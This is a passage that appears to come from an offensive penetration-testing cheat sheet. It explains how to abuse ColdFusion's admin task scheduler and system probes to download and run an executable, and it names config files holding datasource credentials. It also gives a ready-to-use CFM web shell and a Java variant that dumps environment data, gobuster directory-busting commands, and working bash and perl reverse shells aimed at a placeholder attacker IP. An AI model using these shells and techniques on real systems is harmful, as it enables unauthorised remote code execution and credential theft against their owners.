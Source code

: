 * Local upload and execution     
Once access to admin panel is gained it's possible to use the task scheduler to download a file and use a system probe to execute it.

`Debugging & Logging` -> `Scheduled Tasks` -> url=<path to our executable>, Publish - save output to file (some writable path). Then manually execute this task which will download and save our file.
  
To execute it create a probe `Debugging & Logging` -> `System probes` -> URL=<some URL>, Probe fail - fail if probe does not contain "blahblah", Execute program <path to our downloaded exe>. And then run probe manually.
  
* Files worth grabbing     
  * CF7 \lib\neo-query.xml
  * CF8 \lib\neo-datasource.xml
  * CF9 \lib\neo-datasource.xml

* Simple remote CFM shell     
```
<html>
<body>
<cfexecute name = "#URL.runme#" arguments =
"#URL.args#" timeout = "20">
</cfexecute>
</body>
</html>
```

* Simple remote shell using Java (if CFEXECUTE is disabled)     
```
<cfset runtime = createObject("java",
"java.lang.System")>
<cfset props = runtime.getProperties()>
<cfdump var="#props#">
<cfset env = runtime.getenv()>
<cfdump var="#env#">
```

### dir busting

* generic dirbusting
`gobuster -u targetIP -w /usr/share/dirb/wordlists/big.txt`

* fuzz some cgi
`gobuster -u targetIP -w /usr/share/seclists/Discovery/Web_Content/cgis.txt -s 200`

## Reverse Shell Howto

* Bash     
`bash -i >& /dev/tcp/yourIP/4444 0>&1`

* Perl Linux     
`perl -e 'use Socket;$i="yourIP";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
